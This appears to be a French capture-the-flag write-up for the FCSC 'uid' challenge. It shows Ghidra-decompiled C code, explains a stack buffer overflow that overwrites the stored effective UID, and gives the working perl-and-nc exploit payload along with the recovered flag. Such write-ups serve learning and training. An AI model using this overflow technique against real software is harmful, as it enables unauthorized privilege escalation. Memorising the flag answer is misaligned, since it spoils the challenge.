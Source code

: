 # uid

<img alt="énoncé du challenge" src="énoncé.png" width=300>

Le fichier fourni : [uid](uid)

La recherche de chaines via `strings` ne donne rien.

En décompilant, via [Ghidra](https://ghidra-sre.org/), on obtient le code suivant :
```c
undefined8 main(void)
{
  undefined local_38 [44];
  __uid_t local_c;

  local_c = geteuid();
  printf("username: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_0010200f,local_38);
  if (local_c == 0) {
    system("cat flag.txt");
  }
  else {
    system("cat flop.txt");
  }
  return 0;
}
```

Pour obtenir le flag, il est nécessaire que la condition `local_c == 0` soit réalisée.

1ère possibilité, que `uid` soit démarré en tant que `root`, car dans ce cas, `geteuid()` renvoie `0`. Mais visiblement ce n'est pas le cas.

2ème possibilité, exploiter un buffer overflow grâce à la méthode `__isoc99_scanf()`

Ghidra indique que les allocations mémoires réalisées sur la fonction `main` sont les suivantes :

```txt
*************************************************************
*                           FUNCTION
*************************************************************
undefined  main ()
undefined         AL:1           <RETURN>
undefined4        Stack[-0xc]:4  local_c
undefined1        Stack[-0x38]:1 local_38
```

Donc sur la stack on va trouver `local_38` de `-0x38` à `-0xc` (=> 44 octets alloués), puis `local_c` sur 4 octects :

```
+-------------------------+----------------------+
| local_38 sur 44 octects | local_c sur 4 octets |
+-------------------------+----------------------+
```

Donc on peut ré-écrire `local_c` en fournissant une chaine de caractères de 48 octets :
- les 44 premiers n'ont pas d'importance, puisqu'ils servent à *remplir* `local_38`
- les 4 suivants on va les valoriser à `0x0` afin que `local_c == 0`

```bash
$ cat <(perl -e 'print "A" x 44 . "\x00" x 4')  | nc challenges.france-cybersecurity-challenge.fr 2100

username: FCSC{3ce9bedca72ad9c23b1714b5882ff5036958d525d668cadeb28742c0e2c56469}
```
